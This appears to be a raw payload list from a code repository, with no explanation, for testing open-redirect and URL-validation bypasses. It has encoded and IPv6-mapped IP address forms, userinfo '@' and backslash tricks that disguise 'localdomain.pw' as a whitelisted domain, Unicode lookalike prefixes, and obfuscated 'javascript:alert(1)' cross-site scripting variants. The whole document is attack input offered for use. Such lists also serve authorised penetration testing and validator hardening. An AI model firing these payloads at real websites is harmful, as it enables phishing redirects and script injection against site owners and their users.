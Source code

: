 http:www.whitelisteddomain.tld@[::216.58.214.206]
http:3H6k7lIAiqjfNeN@[::216.58.214.206]
http:XY>.7d8T\205pZM@[::216.58.214.206]
http:[::ffff:216.58.214.206]
http:www.whitelisteddomain.tld@[::ffff:216.58.214.206]
http:3H6k7lIAiqjfNeN@[::ffff:216.58.214.206]
http:XY>.7d8T\205pZM@[::ffff:216.58.214.206]
http:0xd8.072.54990
http:www.whitelisteddomain.tld@0xd8.072.54990
http:3H6k7lIAiqjfNeN@0xd8.072.54990
http:XY>.7d8T\205pZM@0xd8.072.54990
http:0xd8.3856078
http:www.whitelisteddomain.tld@0xd8.3856078
http:3H6k7lIAiqjfNeN@0xd8.3856078
http:XY>.7d8T\205pZM@0xd8.3856078
http:00330.3856078
http:www.whitelisteddomain.tld@00330.3856078
http:3H6k7lIAiqjfNeN@00330.3856078
http:XY>.7d8T\205pZM@00330.3856078
http:00330.0x3a.54990
http:www.whitelisteddomain.tld@00330.0x3a.54990
http:3H6k7lIAiqjfNeN@00330.0x3a.54990
http:XY>.7d8T\205pZM@00330.0x3a.54990
〱localdomain.pw
〵localdomain.pw
ゝlocaldomain.pw
ーlocaldomain.pw
ｰlocaldomain.pw
/〱localdomain.pw
/〵localdomain.pw
/ゝlocaldomain.pw
/ーlocaldomain.pw
/ｰlocaldomain.pw
%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
http://%67%6f%6f%67%6c%65%2e%63%6f%6d
<>javascript:alert(1);
<>//localdomain.pw
//localdomain.pw\@www.whitelisteddomain.tld
https://:@localdomain.pw\@www.whitelisteddomain.tld
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
ja\nva\tscript\r:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
\152\141\166\141\163\143\162\151\160\164\072alert(1)
http://localdomain.pw:80#@www.whitelisteddomain.tld/
http://localdomain.pw:80?@www.whitelisteddomain.tld/
http://3H6k7lIAiqjfNeN@www.whitelisteddomain.tld+@localdomain.pw/
http://XY>.7d8T\205pZM@www.whitelisteddomain.tld+@localdomain.pw/
http://3H6k7lIAiqjfNeN@www.whitelisteddomain.tld@localdomain.pw/
http://XY>.7d8T\205pZM@www.whitelisteddomain.tld@localdomain.pw/
http://www.whitelisteddomain.tld+&@localdomain.pw#+@www.whitelisteddomain.tld/
http://localdomain.pw\twww.whitelisteddomain.tld/
//localdomain.pw:80#@www.whitelisteddomain.tld/
//localdomain.pw:80?@www.whitelisteddomain.tld/
//3H6k7lIAiqjfNeN@www.whitelisteddomain.tld+@localdomain.pw/
//XY>.7d8T\205pZM@www.whitelisteddomain.tld+@localdomain.pw/
//3H6k7lIAiqjfNeN@www.whitelisteddomain.tld@localdomain.pw/
//XY>.7d8T\205pZM@www.whitelisteddomain.tld@localdomain.pw/
//www.whitelisteddomain.tld+&@localdomain.pw#+@www.whitelisteddomain.tld/
//localdomain.pw\twww.whitelisteddomain.tld/
//;@localdomain.pw
http://;@localdomain.pw
@localdomain.pw
javascript://https://www.whitelisteddomain.tld/?z=%0Aalert(1)